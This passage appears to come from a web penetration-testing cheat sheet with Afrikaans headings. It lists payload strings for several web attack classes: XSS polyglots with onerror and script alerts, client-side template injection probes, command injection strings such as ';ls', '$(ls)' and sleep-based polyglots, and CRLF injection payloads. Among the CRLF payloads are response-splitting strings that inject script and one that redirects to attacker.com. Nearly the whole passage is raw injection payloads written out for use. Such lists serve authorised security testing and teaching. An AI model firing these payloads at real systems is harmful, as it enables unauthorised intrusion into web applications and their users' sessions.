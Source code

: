 ```python
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
## [Client Side Template Injection](../client-side-template-injection-csti.md)

### Basiese Toetse
```
{{7*7}}
[7*7]
```
### Polygloths
```bash
{{7*7}}[7*7]
```
## [Command Injection](../command-injection.md)

### Basiese Toetse
```bash
;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls`
$(ls)
```
### Polygloths
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```
## [CRLF](../crlf-0d-0a.md)

### Basiese Toetse
```bash
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
## Hangende Merk
